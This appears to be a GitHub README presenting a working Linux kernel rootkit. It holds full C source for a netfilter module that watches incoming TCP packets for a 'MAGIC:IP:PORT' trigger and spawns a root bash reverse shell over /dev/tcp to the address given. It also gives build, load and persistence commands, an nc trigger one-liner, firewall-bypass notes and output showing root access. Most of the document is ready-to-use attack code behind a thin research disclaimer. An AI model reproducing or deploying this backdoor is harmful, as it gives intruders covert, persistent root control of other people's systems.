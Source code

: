 # netfilter kernel backdoor

> What is a netfilter?

```
Netfilter is a framework within the Linux kernel that allows for packet filtering, network address translation (NAT), and other network-related manipulations...

More info: https://www.digitalocean.com/community/tutorials/a-deep-dive-into-iptables-and-netfilter-architecture
```

> [!NOTE]
>
> The `POC` provided in this script may not work on different kernels. It has been tested on `Linux 6.12.12-amd64`

This method aims to use `netfilter` to create a kernel loadable module that will be executed automatically once injected. Please note that in `dmesg` (kernel logs), you can find all logs related to the spawning of the reverse shell. Again, this repo does not want to provide `FUD` payloads but just shows basic techniques.

The code that we want to load in the kernel will be similar to this:

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>
#include <linux/ip.h>
#include <linux/tcp.h>
#include <linux/skbuff.h>
#include <linux/kmod.h>
#include <linux/string.h>
#include <linux/slab.h>
#include <linux/workqueue.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Researcher");
MODULE_DESCRIPTION("Bash Reverse Shell Netfilter Module");

#define MAGIC_PREFIX "MAGIC:"
#define MAGIC_PREFIX_LEN 6

static struct nf_hook_ops nfho;

struct backdoor_work {
    char ip[16];
    char port[6];
    struct work_struct work;
};
static struct workqueue_struct *wq;

static void execute_reverse_shell(struct work_struct *work) {
    struct backdoor_work *bwork = container_of(work, struct backdoor_work, work);
    char cmd[256];
    
    // Create pure bash reverse shell command
    snprintf(cmd, sizeof(cmd), 
             "/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'",
             bwork->ip, bwork->port);
             
    char *argv[] = { "/bin/bash", "-c", cmd, NULL };
    char *envp[] = { "HOME=/", "TERM=xterm", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

    printk(KERN_INFO "Executing reverse shell to %s:%s\n", bwork->ip, bwork->port);
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    kfree(bwork);
}

unsigned int backdoor_hook(void *priv, struct sk_buff *skb, const struct nf_hook_state *state) {
    struct iphdr *iph;
    struct tcphdr *tcph;
    char *data;
    unsigned int data_len;

    if (!skb || skb_linearize(skb) < 0)
        return NF_ACCEPT;

    iph = ip_hdr(skb);
    if (iph->protocol != IPPROTO_TCP)
        return NF_ACCEPT;

    tcph = tcp_hdr(skb);
    data = (char *)((unsigned char *)tcph + (tcph->doff * 4));
    data_len = skb->len - (data - (char *)skb->data);

    if (data_len <= MAGIC_PREFIX_LEN || strncmp(data, MAGIC_PREFIX, MAGIC_PREFIX_LEN) != 0)
        return NF_ACCEPT;

    char *start = data + MAGIC_PREFIX_LEN;
    char *sep = memchr(start, ':', data_len - MAGIC_PREFIX_LEN);
    if (!sep || (sep - start) >= 16)
        return NF_ACCEPT;

    char ip[16] = {0};
    char port[6] = {0};
    unsigned int ip_len = sep - start;
    unsigned int port_len = data_len - (sep - data) - 1;
    
    if (port_len >= sizeof(port))
        return NF_ACCEPT;

    memcpy(ip, start, ip_len);
    memcpy(port, sep + 1, port_len);
    ip[ip_len] = '\0';
    port[port_len] = '\0';

    printk(KERN_INFO "[+] Received MAGIC payload: %s:%s\n", ip, port);

    // Schedule work for safe execution
    struct backdoor_work *bwork = kmalloc(sizeof(*bwork), GFP_ATOMIC);
    if (!bwork) {
        printk(KERN_ERR "Failed to allocate work struct\n");
        return NF_ACCEPT;
    }
    
    strscpy(bwork->ip, ip, sizeof(bwork->ip));
    strscpy(bwork->port, port, sizeof(bwork->port));
    INIT_WORK(&bwork->work, execute_reverse_shell);
    
    if (!queue_work(wq, &bwork->work)) {
        printk(KERN_WARNING "Work already queued, freeing\n");
        kfree(bwork);
    }

    return NF_ACCEPT;
}

static int __init backdoor_init(void) {
    // Create workqueue
    wq = create_singlethread_workqueue("reverse_shell_wq");
    if (!wq)
        return -ENOMEM;

    // Register netfilter hook
    nfho.hook = backdoor_hook;
    nfho.hooknum = NF_INET_PRE_ROUTING;
    nfho.pf = PF_INET;
    nfho.priority = NF_IP_PRI_FIRST;
    nf_register_net_hook(&init_net, &nfho);
    
    printk(KERN_INFO "[*] Reverse shell module loaded\n");
    return 0;
}

static void __exit backdoor_exit(void) {
    nf_unregister_net_hook(&init_net, &nfho);
    if (wq) {
        flush_workqueue(wq);
        destroy_workqueue(wq);
    }
    printk(KERN_INFO "[-] Reverse shell module unloaded\n");
}

module_init(backdoor_init);
module_exit(backdoor_exit);
```

# How does it work?

Basically, what we're doing is intercepting TCP packets at a low level and extracting some info from each packet. The TCP packet payload will look like this: `MAGIC:IP:PORT`. So when an incoming connection is coming, the module will start to inspect the TCP payload and check if it matches the already described pattern. If yes, an attempt to spawn a reverse shell on specified `IP`and `PORT` will be tried. We can bypass firewall rules as checks by Netfilter are done before reaching any firewall rule.

> [!TIP]
>
> When debugging the kernel module you can use `sudo dmesg -Tw` for retrieving kernel logs interactively. To check if the module is loaded you can use `lsmod | grep "netfilter_backdoor"`

# Exploit 

1. Compile and load the module using the provided [Makefile](Makefile)

```bash
make clean 
sudo make remove # if loaded previously
sudo make # compile and load at runtime
sudo make install # make the module persistent for system rebooting, do this only if everything go well
```

other commands

```bash
sudo make remove # remove module loaded at runtime
sudo make uninstall # remove module from booting 
```

2. Obtain a shell 

- Use `echo -n "MAGIC:REV_SHELL_HOST:REV_PORT" | nc TARGET_IP WHATEVER_OPENED_PORT`

> [!IMPORTANT]
>
> Remember to specify an opened port on the remote service. The most common opened port is `53` for `DNS`.
> If you don't specify an opened port you will get
> ```
> (UNKNOWN) [192.168.1.35] 80 (http) : Connection refused
> ```
> `sudo netstat -tupln` will return a list of opened ports.

```bash
listening on [any] 7777 ...
connect to [172.28.109.117] from (UNKNOWN) [172.28.96.1] 20126
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
┌─[root@parrot]─[/]
└──╼ #whoami
whoami
root
┌─[root@parrot]─[/]
└──╼ #
```